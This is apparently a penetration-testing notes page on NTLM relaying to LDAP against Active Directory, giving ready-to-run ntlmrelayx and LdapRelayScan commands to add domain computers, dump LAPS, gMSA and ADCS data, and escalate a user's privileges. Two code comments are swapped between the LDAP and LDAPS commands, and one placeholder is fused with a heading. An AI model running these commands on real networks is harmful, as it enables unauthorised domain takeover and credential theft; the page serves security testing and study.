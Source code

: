 # LDAP Relaying

LDAP Relaying attacks can make use of NTLM authentication. Similar to [SMB Relaying](smb-relaying.md), an attacker who captures credentials via [MITM6](../networks/ipv6.md) or Responder can then relay them to a domain controller, targeting LDAP.&#x20;

It should be noted that the following two defaults need to be set in order for this to be exploited:

* [LDAP Signing Disabled](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/enable-ldap-signing-in-windows-server)
* [LDAP Channel Binding Disabled](https://support.microsoft.com/en-us/topic/use-the-ldapenforcechannelbinding-registry-entry-to-make-ldap-authentication-over-ssl-tls-more-secure-e9ecfa27-5e57-8519-6ba3-d2c06b21812e)

### Enumeration

#### LDAPRelayScan

[LDAPRelayScan](https://github.com/zyn3rgy/LdapRelayScan) can be utilized to identify whether LDAP Signing and/or LDAP Channel Binding are enabled or not.

```bash
# Generic usage of LdapRelayScan.py  
LdapRelayScan.py -u $user -p $password -dc-ip $dcipaddress -method BOTH
```

### Exploitation

{% tabs %}
{% tab title="Computer Creation" %}
Create a new domain computer by abusing the default attribute `ms-DS-MachineAccountQuota` which is by default set to 10, allowing all authenticated users to add up to 10 computers to the domain.&#x20;



This account can then be utilized to perform authenticated attacks against the domain such as Kerberoasting.&#x20;

```bash
# Relay to LDAP
ntlmrelayx.py -t ldaps://$dcip --add-computer $computername

# Relay to LDAPS
ntlmrelayx.py -t ldap://$dcip --add-computer $computername 
```
{% endtab %}

{% tab title="Dump" %}
Relay authentication to LDAP and obtain a significant amount of information about the domain such as ADCS configuration, LAPS, groups, users, etc.&#x20;

```bash
ntlmrelayx -t "ldap://$dcip" --dump-adcs --dump-laps --dump-gmsa
```
{% endtab %}

{% tab title="Escalate" %}
Relay captured credentials to LDAPS and escalate the privileges of a specified domain user.&#x20;

```bash
# Relay authentication over LDAPS and attempt to escalate privileges
ntlmrelayx.py -t ldaps://$dcip --escalate-user $usernameLAReferences
```
{% endtab %}
{% endtabs %}

### References

{% embed url="https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/" %}

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adversary-in-the-middle/ldap-relay" %}

{% embed url="https://www.thehacker.recipes/ad/movement/ntlm/relay" %}

{% embed url="https://www.praetorian.com/blog/obtaining-laps-passwords-through-ldap-relaying-attacks/" %}

